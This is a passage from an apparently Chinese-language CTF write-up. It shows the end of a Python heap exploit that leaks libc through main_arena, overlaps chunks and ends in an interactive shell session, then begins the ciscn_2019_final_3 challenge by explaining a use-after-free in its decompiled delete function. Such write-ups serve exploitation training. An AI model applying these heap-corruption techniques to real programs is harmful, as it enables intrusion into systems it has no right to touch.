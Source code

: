 ```

addr_chunk0_prev_size = display(2) - 0xa0
print(hex(addr_chunk0_prev_size))
add(2, addr_chunk0_prev_size)
add(2, addr_chunk0_prev_size)
add(2, 0x91)

for i in range(0, 7):
    delete(1)
    add(2, 0x20)
delete(1)

main_arena = display(1) - 96
print(hex(main_arena))
libc_base = main_arena - libc.sym['__malloc_hook'] - 0x10
stdin = libc_base + libc.sym['_IO_2_1_stdin_'] + 0x70

add(1, stdin)
add(1, 0x30) 

delete(1)
add(2, 0x20)
delete(1)
addr_chunk0_fd = display(1) - 0x30
add(1, addr_chunk0_fd)
add(1, addr_chunk0_fd)
add(1, 111)
add(1, 666)

io.sendlineafter('which command?\n&gt; ', '4')
io.recvuntil('your message :')

io.interactive()
```



## 0x12 ciscn_2019_final_3

这题只有两个功能，添加和删除，不过在进行添加的时候，他会帮我们把malloc后的地址进行输出，我们想要泄露出libc的基址的话就可以分配到unsortbin的bins头处，然后输出地址，就可以泄露出libc的基址了。

然后在删除的函数中，对chunk进行free后没有置零，存在UAF漏洞

```
unsigned __int64 delete()
`{`
  __int64 v0; // rax
  unsigned int v2; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v0 = std::operator&lt;&lt;&lt;std::char_traits&lt;char&gt;&gt;(&amp;std::cout, "input the index");
  std::ostream::operator&lt;&lt;(v0, &amp;std::endl&lt;char,std::char_traits&lt;char&gt;&gt;);
  std::istream::operator&gt;&gt;(&amp;std::cin, &amp;v2);
  if ( v2 &gt; 0x18 )
    exit(0);
  free(*((void **)&amp;unk_2022A0 + v2));
  return __readfsqword(0x28u) ^ v3;
`}`
```
